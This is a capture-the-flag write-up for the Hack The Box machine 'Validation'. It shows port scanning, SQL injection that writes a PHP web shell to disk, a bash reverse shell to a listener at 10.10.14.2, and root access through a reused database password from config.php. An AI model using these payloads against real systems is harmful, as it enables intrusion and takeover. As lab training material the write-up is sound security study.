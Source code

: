 ```yaml
---
name: Validation
difficulty: easy
os: linux
platform: htb
date: 2025/09/30
releasedDate: 2009-12-31
userFlag: true
rootFlag: true

img: https://htb-mp-prod-public-storage.s3.eu-central-1.amazonaws.com/avatars/e2e239f39430cf597202497d910b82b8.png
---
```


## Enumeration

We start by scanning the target machine for open ports using Nmap. We will use the `-p-` option to scan all ports and the `--open` option to filter out closed ports:

```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.116 -o allPorts
```

```
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 63
80/tcp   open  http       syn-ack ttl 62
4566/tcp open  kwtc       syn-ack ttl 63
8080/tcp open  http-proxy syn-ack ttl 63
```

Now we will scan the open ports with service version detection and script scanning using `-sC` and `-sV` options

```bash
nmap -p22,80,4566,8080 -sCV 10.10.11.116 -o targeted
```
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
|_http-server-header: Apache/2.4.48 (Debian)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
4566/tcp open  http    nginx
|_http-title: 403 Forbidden
8080/tcp open  http    nginx
|_http-title: 502 Bad Gateway
```

First, we will check the web server running on port 80. We can see a web page which allows us send a message to a group (countries):
![](images/validation/2025-09-30-18-36-51.png)

We add a new message and see that the output is reflected in the page.
![](images/validation/2025-09-30-18-34-07.png)

We can try to inject some SQL commands in the input field. We add a single quote (`'`) and see that we get an SQL error:
```
Brazil' --
```
```
Fatal error: Uncaught Error: Call to a member function fetch_assoc() on bool in /var/www/html/account.php:33 Stack trace: #0 {main} thrown in /var/www/html/account.php on line 33
```

This confirms that the input is vulnerable to SQL injection. We can try to enumerate the database:
```sql
UNION SELECT database() --
```
```
registration
```

## User Exploitation

We can try write a file to the server using SQL injection:
```sql
UNION SELECT 
    "<?php SYSTEM($_REQUEST['cmd']); ?>" 
INTO OUTFILE
    '/var/www/html/reverse.php'-- -
```

We can now access the web shell at `http://10.10.11.116/reverse.php`:
```bash
curl "http://10.10.11.116/reverse.php?cmd=whoami"
```
```
www-data
```

We can now try to get a reverse shell. First, we will set up a listener on our machine:
```bash
nc -lvnp 4444
```

Then, we will send the reverse shell command to the target machine:
```bash
curl "http://10.10.11.116/reverse.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.2/4444 0>%261'"
whoami
```
```
www-data
```

## Root Exploitation

We find a file named `config.php` in the web directory:
```php
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```

We can use these credentials to change user to root:
```bash
su root
Password: uhc-9qual-global-pw
whoami
```
```
root
```

## Conclusion

In this machine, we exploited an SQL injection vulnerability to write a web shell to the server. We then used the web shell to get a reverse shell and access the machine as the `www-data` user. Finally, we found database credentials in a configuration file and used them to change to the root user.

